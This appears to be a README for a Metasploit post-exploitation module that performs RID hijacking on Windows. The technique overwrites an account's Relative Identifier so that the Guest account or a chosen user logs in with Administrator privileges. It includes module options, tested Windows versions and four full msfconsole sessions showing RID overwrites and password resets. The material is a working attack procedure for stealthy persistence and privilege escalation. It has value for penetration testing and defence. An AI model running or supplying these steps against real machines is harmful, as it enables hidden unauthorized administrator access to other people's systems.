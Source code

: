 # RID Hijacking: Maintaining Access on Windows Machines

The **RID Hijacking** hook, applicable to all Windows versions, allows setting desired privileges to an existent account in a stealthy manner by modifying some security attributes of an user.

By only using OS resources, it is possible to replace the RID of an user right before the access token is created. To automatize the attack, a Metasploit module was developed. It requires a *meterpreter* session against the victim.

## Metasploit Module

[post/windows/manage/rid_hijack](https://github.com/rapid7/metasploit-framework/blob/master/modules/post/windows/manage/rid_hijack.rb)

## Overview

This module will create an entry on the target by modifying some properties of an existing account. It will change the account attributes by setting a Relative Identifier (RID), which should be owned by one existing account on the destination machine.

Taking advantage of some Windows Local Users Management integrity issues, this module will allow to authenticate with one known account credentials (like GUEST account), and access with the privileges of another existing account (like ADMINISTRATOR account), even if the spoofed account is disabled.

By using a `meterpreter` session against a Windows host, the module will try to acquire _**SYSTEM**_ privileges if needed, and will modify some attributes to hijack the permissions of an existing local account and set them to another one.

## Vulnerable Software

This module has been tested against:

- Windows XP, 2003. (32 bits)
- Windows 8.1 Pro. (64 bits)
- Windows 10. (64 bits)
- Windows Server 2012. (64 bits)

This module was not tested against, but may work on:

- Other versions of windows (x86 and x64).

## Options

- **GETSYSTEM**: Try to get _**SYSTEM**_ privileges on the victim. Default: `false`

- **GUEST_ACCOUNT**: Use the _**GUEST**_ built-in account as the destination of the privileges to be hijacked. Set this account as the _hijacker_. Default: `false`.

- **SESSION**: The session to run this module on. Default: `none`.

- **USERNAME**: Set the user account (_SAM Account Name_) of the victim host which will be the destination of the privileges to be _hijacked_. Set this account as the _hijacker_. If **GUEST_ACCOUNT** option is set to `true`, this parameter will be ignored if defined. Default: `none`.

- **PASSWORD**: Set or change the password of the account defined as the destination of the privileges to be hijacked, either _**GUEST**_ account or the user account set in **USERNAME** option. Set password to the _hijacker_ account. Default: `none`.

- **RID**: Specify the RID number in decimal of the _victim account_. This number should be the RID of an existing account on the target host, no matter if it is disabled (i.e.: The RID of the _**Administrator**_ built-in account is 500). Set the RID owned by the account that will be _hijacked_. Default: `500`

## Scenarios
### Assigning Administrator privileges to Guest built-in account.
```
msf post(rid_hijack) > set GETSYSTEM true
GETSYSTEM => true
msf post(rid_hijack) > set GUEST_ACCOUNT true
GUEST_ACCOUNT => true
msf post(rid_hijack) > set SESSION 1
SESSION => 1
msf post(rid_hijack) > run

[*] Checking for SYSTEM privileges on session
[+] Session is already running with SYSTEM privileges
[*] Target OS: Windows 8.1 (Build 9600).
[*] Target account: Guest Account
[*] Target account username: Invitado
[*] Target account RID: 501
[*] Account is disabled, activating...
[+] Target account enabled
[*] Overwriting RID
[+] The RID 500 is set to the account Invitado with original RID 501
[*] Post module execution completed
```
#### Results after login in as the Guest account.

![guest_account](https://user-images.githubusercontent.com/14118912/36490462-4bf84d68-16f6-11e8-811c-bf2d8c42b93d.PNG)

### Assigning Administrator privileges to local custom account.
```
msf post(rid_hijack) > set GETSYSTEM true
GETSYSTEM => true
msf post(rid_hijack) > set GUEST_ACCOUNT false
GUEST_ACCOUNT => false
msf post(rid_hijack) > set USERNAME testuser
USERNAME => testuser
msf post(rid_hijack) > run

[*] Checking for SYSTEM privileges on session
[+] Session is already running with SYSTEM privileges
[*] Target OS: Windows 8.1 (Build 9600).
[*] Checking users...
[+] Found testuser account!
[*] Target account username: testuser
[*] Target account RID: 1002
[+] Target account is already enabled
[*] Overwriting RID
[+] The RID 500 is set to the account testuser with original RID 1002
[*] Post module execution completed
```
#### Results after login in as the _testuser_ account.
![testuser](https://user-images.githubusercontent.com/14118912/36490561-837bd2f0-16f6-11e8-8dc6-53283bb4d9ea.PNG)

### Assigning custom privileges to Guest built-in account and setting new password to Guest.
```
msf post(rid_hijack) > set GUEST_ACCOUNT true
GUEST_ACCOUNT => true
msf post(rid_hijack) > set RID 1002
RID => 1002
msf post(rid_hijack) > set PASSWORD Password.1
PASSWORD => Password.1
msf post(rid_hijack) > run

[*] Checking for SYSTEM privileges on session
[+] Session is already running with SYSTEM privileges
[*] Target OS: Windows 8.1 (Build 9600).
[*] Target account: Guest Account
[*] Target account username: Invitado
[*] Target account RID: 501
[+] Target account is already enabled
[*] Overwriting RID
[+] The RID 1002 is set to the account Invitado with original RID 501
[*] Setting Invitado password to Password.1
[*] Post module execution completed
```
### Assigning custom privileges to local custom account and setting new password to custom account.
```
msf post(rid_hijack) > set GUEST_ACCOUNT false
GUEST_ACCOUNT => false
msf post(rid_hijack) > set USERNAME testuser
USERNAME => testuser
msf post(rid_hijack) > set PASSWORD Password.2
PASSWORD => Password.2
msf post(rid_hijack) > run

[*] Checking for SYSTEM privileges on session
[+] Session is already running with SYSTEM privileges
[*] Target OS: Windows 8.1 (Build 9600).
[*] Checking users...
[+] Found testuser account!
[*] Target account username: testuser
[*] Target account RID: 1002
[+] Target account is already enabled
[*] Overwriting RID
[+] The RID 1002 is set to the account testuser with original RID 1002
[*] Setting testuser password to Password.2
[*] Post module execution completed
```

## References

[CSL LABS: RID Hijacking on Windows](http://csl.com.co/rid-hijacking/)
